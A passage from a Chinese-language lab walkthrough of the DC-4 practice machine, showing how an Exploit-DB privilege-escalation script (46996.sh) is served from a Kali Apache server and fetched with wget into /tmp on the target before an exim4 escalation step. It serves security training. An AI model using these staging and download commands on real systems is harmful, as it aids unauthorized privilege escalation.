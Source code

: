 #### 4、上传提权脚本到靶机

>  
 开启apache服务 


```
systemctl start apache2.service  

```

>  
 将选用的46996拷贝到kali的apache web页面下 


```
cp /usr/share/exploitdb/exploits/linux/local/46996.sh /var/www/html 

```

<img src="https://img-blog.csdnimg.cn/5abe04ce963345f3ab9e2b37b6cddba0.png" alt="在这里插入图片描述">

>  
 访问kali服务下载提权脚本 


```
http://kali-ip/46996.sh

```

>  
 DC-4下载提权脚本 


```
wget http://192.168.233.130/46996.sh

```

>  
 提示可以访问，但拒绝访问，可能是目录权限不够，尝试切换到/tmp目录进行下载 


<img src="https://img-blog.csdnimg.cn/6e5ddfb65ca843a1bc264fc2f1e3ae03.png" alt="在这里插入图片描述">

```
cd /tmp
wget http://192.168.233.130/46996.sh

```

>  
 成功下载提权脚本 


<img src="https://img-blog.csdnimg.cn/0142f4d58d7c40ec8e1d598faf6b93c4.png" alt="在这里插入图片描述">

#### 5、exim4提权
